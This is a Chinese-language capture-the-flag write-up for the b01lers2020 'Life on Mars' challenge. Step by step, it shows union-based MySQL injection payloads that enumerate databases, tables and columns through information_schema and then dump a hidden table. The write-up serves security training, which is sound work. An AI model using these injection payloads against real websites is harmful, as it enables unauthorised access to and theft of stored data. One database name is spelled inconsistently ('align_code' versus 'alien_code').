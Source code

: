 # [b01lers2020]Life on Mars

## 知识点

`sql注入`

## 解题

![](./img/[b01lers2020]Life on Mars-1.png)

然后点击超链接时`get`没有参数也没有路径，应该是用的`POST`传参，使用`burpsuite`抓包查看

![](./img/[b01lers2020]Life on Mars-2.png)

![](./img/[b01lers2020]Life on Mars-3.png)

页面变化时`search`参数和`_`参数均会变化，看看源码是不是`js`处理数据

在`life_on_mars.js`发现请求源码



![](./img/[b01lers2020]Life on Mars-4.png)

看样子有可能是查`数据库`,尝试一下`mysql注入`

在`order by 2`时正常，在`order by 3`时返回异常

![](./img/[b01lers2020]Life on Mars-5.png)

![](./img/[b01lers2020]Life on Mars-6.png)

都能回显

```sql
?search=noachis_terra+union+select+1,2
```

![](./img/[b01lers2020]Life on Mars-7.png)

### 查数据库

```sql
?search=noachis_terra+union+select+1,database()
```

![](./img/[b01lers2020]Life on Mars-8.png)

发现当前数据库名为`aliens`

### 查表名

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()
```

表有`amazonis_planitia,arabia_terra,chryse_planitia,hellas_basin,hesperia_planum,noachis_terra,olympus_mons,tharsis_rise,utopia_basin`

![](./img/[b01lers2020]Life on Mars-9.png)

发现似乎没有`flag`

重新看看所有数据库

### 查询所有数据库

```sql
?search=noachis_terra+union+select+1,group_concat(schema_name)+from+information_schema.schemata&{}&_=123
```

![](./img/[b01lers2020]Life on Mars-10.png)

发现`align_code`数据库

### 查align_code数据库的表

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema='align_code'
```

![](./img/[b01lers2020]Life on Mars-11.png)

表名为`code`

### 查列名

```sql
?search=noachis_terra+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_name="code" 
```

![](./img/[b01lers2020]Life on Mars-12.png)

发现有两列`id,code`

### 查数据

```sql
?search=noachis_terra+union+select+1,group_concat(id,code)+from+alien_code.code
```

> 因查询的不是当前数据库，数据表前要加数据库名，否则找不到

![](./img/[b01lers2020]Life on Mars-13.png)